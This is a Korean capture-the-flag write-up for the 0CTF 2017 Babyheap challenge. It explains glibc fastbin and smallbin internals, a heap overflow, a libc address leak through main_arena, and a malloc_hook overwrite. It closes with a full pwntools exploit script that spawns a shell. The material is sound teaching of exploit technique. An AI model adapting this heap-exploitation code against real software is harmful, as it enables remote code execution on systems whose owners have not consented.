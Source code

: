 # 0CTF 2017 Babyheap Write-up

### 필요 개념

- fastbin
- smallbin
- main_arena



##### Fastbin

힙 영역에 16바이트 이상 80바이트 미만 크기의 데이터가 할당될 때 그 데이터를 fastbin을 통해 관리한다.

fd 값을 갖는데, 2개 이상의 chunk가 해제되면 마지막에 해제된 chunk의 fd에는 이전에 해제된 chunk의 주소가 적힌다.(싱글 링크드 리스트)



##### Smallbin

128바이트 이상, 512바이트 미만 크기의 데이터가 힙에 할당될 때 데이터를 Smallbin을 통해 관리한다.

fd, bk 값을 갖는데 2개이상의 chunk가 할당될 때 fd, bk가 부여된다.(더블 링크드 리스트) 첫번째 chunk의 경우 **fd값이 main_arena 내부의 주솟값**이다.



##### main_arena

힙에 대한 정보를 갖고 있다. (fastbin, smallbin 등 bins에 대한 정보 포함)

main_arena의 주솟값을 통해 **libc의 base 주소**를 구할 수 있다.



### 환경

- 64비트 실행파일

![1](./img/1.png)



### 문제 파악

![2](./img/2.png)

 Heap 영역에 데이터를 할당/초기화/해제하고 할당된 데이터를 보여주는 프로그램입니다.



### 취약점

- Heap based Overflow

  ![3](./img/3.png)

  ![4](./img/4.png)

위를 보면 알 수 있듯이 index가 0인 chunk에 데이터를 작성할 때 사이즈가 초과하도록 데이터를 넣어주면 다음 index의 chunk영역까지 overwrite할 수 있다. 이를 통해 **다음 chunk의 사이즈, 내용, fd 등의 값을 조작**할 수 있다.



### Exploit 시나리오

##### Leak

1. 32바이트 크기의 데이터를 4개를 할당한다.(idx : 0,1,2,3)
   - idx0은 idx1의 값을, idx3은 idx4의 값을 overwrite하는 데에 사용
2. 128바이트 크기의 데이터를 1개를 할당한다. (idx : 4)
3. idx2, idx1을 free한다.
   - idx1의 fd에는 idx2의 주소가 적힌다.
   - 다음에 32바이트 크기의 데이터를 할당하면 idx1에 할당되는데 데이터가 할당되기 전에 idx1의 fd값을 읽어와 fastbin에 넣는다. 그 후, 또 다시 32바이트 크기의 데이터를 할당하면 fastbin에 있는 값을 읽어와 그 주소에 데이터를 할당한다.
4. idx0을 통해 idx1의 fd값을 idx4의 주솟값으로 조작한다.
5. idx3를 통해 idx4의 크기를 32바이트로 조작한다.
   - bin에서 가져온 값에 데이터를 **할당하기 전엔 해당 chunk의 크기를 확인**한다
6. 32바이트 크기의 데이터를 할당한다.
   - 이 chunk의 idx는 1이며 **현재 fastbin에는 idx4의 주솟값**이 적혀있다.
7. 32바이트 크기의 데이터를 할당한다.
   - 이 chunk의 idx는 2이며 idx4에 할당된다. 즉, idx2와 idx4가 겹쳐져 있는 상태이다.
8. idx4에 fd와 bk 값을 할당시켜주기 위해 128바이트 크기의 데이터를 할당한다.
9. idx3를 통해 idx4의 크기를 다시 128바이트로 조작한다.
10. idx4를 해제한다.
11. idx2의 값을 확인하면 idx4의 fd,bk 값을 확인할 수 있고 이 값은 main_arena의 주솟값이다.





##### Exploit

- RELRO가 걸려 있어서 got를 덮어쓰는 것은 불가능하다.
- malloc_hook이라는 것이 있는데 alloc 함수를 call하면 이 영역에 적혀있는 주소도 call한다.
- malloc_hook을 system 함수의 주소로 덮어씌움으로써 Exploit이 가능하다.



##### Code

```python
from pwn import *

heapbase = 0x555555757000
p = process("./babyheap")

dataSize1 = 32
dataSize2 = 128

def alloc(size):
	p.recv()
        p.sendline('1')         
        p.recv()
        p.sendline(str(size))

def fill(idx, size, content):
	p.recv()
	p.sendline('2')
	p.recv()
	p.sendline(str(idx))
        p.recv()
        p.sendline(str(size))
        p.recv()
        p.sendline(str(content))

def free(idx):
	p.recv()
	p.sendline('3')
	p.recv()
	p.sendline(str(idx))

def show(idx):
	p.recv()
	p.sendline('4')
	p.recv()
	p.sendline(str(idx))
	p.recvline()
	return p.recvline()

alloc(dataSize1)		# idx0(fastbin)
alloc(dataSize1)		# idx1(fastbin)
alloc(dataSize1)		# idx2(fastbin)
alloc(dataSize1)		# idx3(fastbin)
alloc(dataSize2)		# idx4(smallbin)

payload="\x00"*dataSize1 + p64(0) + p64(dataSize1+17)	# control the size of idx4
fill(3, len(payload), payload)

free(2)
free(1)

payload="\x00"*dataSize1 + p64(0) + p64(dataSize1+17) + p8((dataSize1+16)*4)
fill(0, len(payload), payload)
alloc(dataSize1)		# idx1
alloc(dataSize1)		# idx2 == idx4
alloc(dataSize2)		# make fd,bk in idx4

payload="\x00"*dataSize1 + p64(0) + p64(dataSize2+17)   # control the size of idx4
fill(3, len(payload), payload)

free(4)
leaked = show(2)

libcbase = u64(leaked[0:8]) - 0x3c4b78		# offset in local environment
oneGadget = libcbase + 0x4526a
addr = libcbase + 0x3c4b10 - 0x23

print "libc base : " + str(hex(libcbase))

alloc(0x60)			# idx4
free(4)				# clear

payload = p64(addr)
fill(2, len(payload), payload)

alloc(0x60)			# idx5
alloc(0x60)			# idx6, to overwrite malloc_hook

payload = "\x00"*3 + p64(0)*2 + p64(oneGadget)
fill(6, len(payload), payload)

alloc(32)
p.interactive()
```

